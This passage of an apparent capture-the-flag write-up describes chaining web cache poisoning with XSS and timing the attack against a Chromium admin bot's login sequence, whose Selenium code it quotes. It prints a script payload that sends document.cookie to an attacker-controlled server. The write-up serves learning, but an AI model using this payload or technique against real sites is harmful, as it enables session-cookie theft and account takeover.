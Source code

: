 This python script will cause the cache poisoning + XSS.

### Race condition in the chromium bot

We can try and use what we found to attack the bot that runs every 0.5 minutes but this does not work.

If we poison the cache with the following payload:

```html
<script>fetch("http://my-server.com/exfiltrate?cookies="+document.cookie)</script>
```

We receive a request with no cookies provided

Let's have a look at the bots code to figure out why.

```py
client.get("http://127.0.0.1:1337/controller/login")

time.sleep(3)
client.find_element(By.ID, "username").send_keys(config["MODERATOR_USER"])
client.find_element(By.ID, "password").send_keys(config["MODERATOR_PASSWORD"])
client.execute_script("document.getElementById('login-btn').click()")
time.sleep(3)

client.get(f"http://127.0.0.1:1337/oracle/json/{str(random.randint(1, 15))}")

time.sleep(10)
```

Here we can see that the bot first visits the login page, waits 3 seconds, logs in using the credentials, waits another 3 seconds and then visits a random device on the oracle service.

So if we poison the cache before the user logs in there are no cookies to steal yet, and because the bot gets our cached response there are no inputs and buttons to interact with so the login step fails completelly.

We have to time the poisoning of the cache accurately after the login step but not after the bot visits the oracle.

![img](./assets/bot_status.png)

